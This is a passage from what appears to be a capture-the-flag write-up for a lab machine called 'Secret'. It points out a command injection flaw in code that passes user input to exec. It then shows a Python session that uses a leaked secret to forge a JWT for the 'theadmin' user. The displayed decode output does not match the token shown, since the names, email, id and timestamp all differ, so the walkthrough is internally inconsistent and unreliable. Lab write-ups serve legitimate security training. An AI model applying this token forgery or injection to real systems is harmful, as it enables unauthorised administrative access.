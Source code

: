 ## It only works if the username is theadmin, but then it can fetch Git logs. The problem is that this code has a command injection vulnerability in it, as it builds a string with user input and then passes it to exec.

#### Shell as dasith

### Forge JWT

## Test Token

## I got a JWT earlier, so I can use to test if this is still the secret in use on Secret. I like to use Python for this kind of thing, dropping into a Python shell by running python3. I’ll need PyJWT installed as well (pip3 install pyjwt).
First I’ll import the package and save my token in a variable named token and the secret in a variable named secret to make them easier to work with:

```bash
>>> import jwt
>>> token = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoiMHhkZjB4ZGYiLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.rMfMsdYkfSbl4hr1RJFwY3qWfrA3LSWVlzUON_9EW_A'
>>> secret = 'gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE'
```
## Now the jwt.decode function will decode the token if the secret is right:

```bash
>>> jwt.decode(token, secret)
{'_id': '617825332c2bab0445c48461', 'name': 'blackbash', 'email': 'blackbash0x01@secret.com', 'iat': 1635264878}
```

### Create Token

## I’ll note above that jwt.decode() returns a dictionary with the various data from the JWT. I’ll save that to f, and then change the name to theadmin and use jwt.encode() to create a new token from that dictionary:

```bash
>>> f = jwt.decode(token, secret)
>>> f['name'] = 'theadmin'
>>> jwt.encode(f, secret)
b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8'
```
